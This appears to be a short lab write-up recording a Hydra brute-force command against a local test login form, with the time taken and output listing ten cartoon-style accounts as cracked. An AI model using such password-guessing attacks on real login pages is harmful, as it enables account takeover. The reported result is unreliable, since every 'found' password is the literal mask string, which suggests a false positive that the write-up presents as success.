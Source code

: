 
### Command
Only command that worked was something like this with the mask:
hydra -L user.txt -p iamven?a?a?a?a?a?a 127.0.0.1 -s 8000 http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid login"
It did not let me create any bigger attack than this, because i got error for trying to create 4 billion password attack.

### Time
Time was less than 10 seconds.

### Output
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-18 14:34:33
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking http-post-form://127.0.0.1:8000/login:username=^USER^&password=^PASS^:F=Invalid login
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamven?a?a?a?a?a?a
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamven?a?a?a?a?a?a
1 of 1 target successfully completed, 10 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-18 14:34:33
